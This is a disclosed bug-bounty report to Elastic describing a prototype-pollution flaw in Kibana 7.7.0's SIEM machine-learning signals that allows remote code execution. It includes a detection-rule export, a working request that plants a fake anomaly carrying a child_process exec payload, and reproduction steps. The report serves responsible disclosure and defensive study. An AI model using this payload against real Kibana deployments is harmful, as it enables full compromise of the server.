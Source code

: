 # Remote Code Execution in coming Kibana 7.7.0

## Report Details
- **Report ID**: 861744
- **URL**: https://hackerone.com/reports/861744
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2020-04-28T19:28:40.828Z
- **Disclosed**: 2021-04-19T21:46:03.513Z

## Reporter
- **Username**: alexbrasetvik
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: elastic

## Vulnerability Information
**Summary:**

Kibana 7.7.0 as per commit [c5f682cb](https://github.com/elastic/kibana/commits/c5f682cb) is vulnerable to a remote code execution vulnerability that is similar to the one reported in https://hackerone.com/reports/852613

Kibana 7.7.0 is not released, so this is an experiment. I know that getting these reports is more valuable to Elastic prior to a release, as the amount of work growing out of a critical vulnerability like this is a lot more _after_ release. It could possibly be more valuable for me to wait until Cloud actually has the release and clearly is in scope, but I have faith in you wanting to encourage people to actually look at code whose release is imminent, so here's the report pre release.

I saw that you have commited the fixes to my previous report: https://github.com/elastic/kibana/commit/68674568efac9070935f07e55dfd1a9f8482663d That fix is part of commit c5f682cb which the following is tested with.

**Description:**

There is a prototype pollution in the new "SIEM signal" feature: https://github.com/elastic/kibana/blob/master/x-pack/plugins/siem/server/lib/detection_engine/signals/bulk_create_ml_signals.ts#L58

The attached recording shows how to exercise this code via a SIEM detection rule. The following JSON-blob is an export of the detection rule used:

```
{"actions":[],"created_at":"2020-04-28T17:19:42.955Z","updated_at":"2020-04-28T18:02:32.489Z","created_by":"elastic","description":"test","enabled":true,"anomaly_threshold":0,"false_positives":[],"from":"now-108015s","id":"ac26797b-9061-485c-889c-79993ca8e209","immutable":false,"interval":"15s","rule_id":"2a5a3f8e-79a9-4101-99d9-b414ed48c0db","output_index":".siem-signals-default","max_signals":100,"machine_learning_job_id":"linux_anomalous_network_activity_ecs","risk_score":50,"name":"test","references":[],"meta":{"from":"30h","kibana_siem_app_url":"https://localhost:5601/app/siem"},"severity":"low","updated_by":"elastic","tags":[],"to":"now","type":"machine_learning","threat":[],"throttle":"no_actions","version":3}
{"exported_count":1,"missing_rules":[],"missing_rules_count":0}
```

If I create a fake ML-anomaly like follows, I can pollute the prototype:

```
PUT /.ml-anomalies-custom-linux_anomalous_network_activity_ecs/_doc/my-anomaly?refresh
{
  "timestamp": 1588093630045,
  "result_type": "record",
  "record_score": 1,
  "job_id": "linux_anomalous_network_activity_ecs",
  "by_field_name": "field_name",
  "by_field_value": "field_value",
  "influencers": [
    {"influencer_field_name": "foo.__proto__.sourceURL", "influencer_field_values": "\u2028\u2029\n;global.process.mainModule.require('child_process').exec('say pwned && open https://www.youtube.com/watch?v=LUsiFV3dsK8')"}
    ]
}
```

Note that the timestamp might need adjusting, as the SIEM rule only looks 30h back in the past as provided.

## Steps To Reproduce:

  1. Import the provided SIEM detection rule.
  1. Create the fake anomaly provided above.
  1. Enable the rule. Sometimes disabling and re-enabling it is necessary, which is probably a bug in itself.
  1. Wait ~15 seconds for the rule to be evaluated, which should execute the code, which on a Mac will cause "pwned" to sound and the youtube clip to open.

## Supporting Material/References:

  * Video walkthrough attached.

## Impact

A user with write access to these indexes (like any Cloud user would have) can achieve full remote code execution.

## Attachments
- Kibana_7.7.0_RCE.mp4
